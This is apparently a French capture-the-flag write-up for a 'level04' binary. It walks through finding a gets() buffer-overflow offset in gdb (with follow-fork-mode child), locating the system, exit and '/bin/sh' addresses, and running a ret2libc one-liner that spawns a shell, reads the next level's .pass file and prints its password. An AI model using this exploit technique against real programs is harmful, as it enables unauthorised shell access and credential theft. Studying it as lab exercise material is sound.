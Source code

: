 # LEVEL 04

On trouve un binaire **level04** à la racine du répo, contenant une fonction **main**.

En traduisant le code (**source.c**), on s'appercoit que le main utilise un **gets** que nous pouvons exploiter pour faire un **buffer overflow**.

Petite particularité, il y a la création d'un **child**, que gdb (par défault) ne suit pas. (If PID)

Pour contrer cela nous utlisons la commande <code>set follow-fork-mode child</code>

Ainsi recuperer l'Offset nous faisons donc :
```gdb
(gdb) set follow-fork-mode child

(gdb) b *main+155
Breakpoint 1 at 0x8048763
run
Starting program: /home/users/level04/level04
[New process 2821]
Give me some shellcode, k
BBBBBBBBBBBBBBBBBBBBBBBBBBB
[Switching to process 2821]

Breakpoint 1, 0x08048763 in main ()
(gdb) i f
Stack level 0, frame at 0xffffd720:
 eip = 0x8048763 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args:
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd710, ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c
(gdb) x/30x $eax
0xffffd680:     0x42424242      0x42424242      0x42424242      0x42424242
0xffffd690:     0x42424242      0x42424242      0x00424242      0x00000000
0xffffd6a0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd6b0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd6c0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd6d0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd6e0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd6f0:     0x00000000      0x00000000
p 0xffffd71c - 0xffffd680
$1 = 156
```

Donc nous avons un Offset de **156**.

On recupere l'adresse de **system**, **exit** et **/bin/sh**:

```gdb
(gdb) p &system
$2 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) p &exit
$3 = (<text variable, no debug info> *) 0xf7e5eb70 <exit>
(gdb) info proc map
process 2821
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fd8000 0xf7fda000     0x2000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

Pour finir nous effectuons un Ret2Libc:

```shell
(python -c "print 'A'*156 + '\xd0\xae\xe6\xf7' +  '\x70\xeb\x5e\xf7' + '\xec\x97\xf8\xf7'"; cat) | ./level04
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
